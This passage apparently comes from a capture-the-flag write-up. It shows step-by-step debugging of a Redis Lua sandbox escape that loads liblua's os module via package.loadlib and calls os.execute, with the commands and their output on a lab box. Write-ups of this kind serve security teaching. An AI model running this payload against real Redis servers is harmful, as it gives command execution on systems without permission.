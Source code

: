 Running this directly won’t work:

```
127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0'
(error) ERR wrong number of arguments for 'eval' command

```

That’s because `eval` takes a minimum of two arguments, according to [the docs](https://redis.io/commands/eval/). I’ll give it a 0, and it’s a new error:

```
127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0' 0 
(error) ERR Error running script (call to f_9dde318a677aa429bd40e6b54cf363002dda0971): @user_script:1: user_script:1: attempt to call local 'os_l' (a nil value)

```

`os_l` is a nil value. That’s where the library is loaded. Is that library present? It turns out not:

```

dan_smith@shared:~$ ls /usr/lib/x86_64-linux-gnu/liblua5.1.so
ls: cannot access '/usr/lib/x86_64-linux-gnu/liblua5.1.so': No such file or directory
dan_smith@shared:~$ ls /usr/lib/x86_64-linux-gnu/liblua5.1.so*
/usr/lib/x86_64-linux-gnu/liblua5.1.so.0  /usr/lib/x86_64-linux-gnu/liblua5.1.so.0.0.0

```

But `liblua5.1.so.0` is, in the same directory. I’ll try that:

```
127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0' 0 
(integer) 0

```

It seems to work. But there’s no file in `/tmp`:

```

dan_smith@shared:~$ ls /tmp/
systemd-private-bec33c1489384520996f91f25f4fa934-redis-server.service-bo2wJh
systemd-private-bec33c1489384520996f91f25f4fa934-systemd-logind.service-yzWFZh
systemd-private-bec33c1489384520996f91f25f4fa934-systemd-timesyncd.service-n0pL5g
vmware-root_398-558012343

```

Writing to `/tmp` can be weird. I’ll try `/dev/shm`:

```
127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /dev/shm/redis_poc"); return 0' 0 
(integer) 0

```
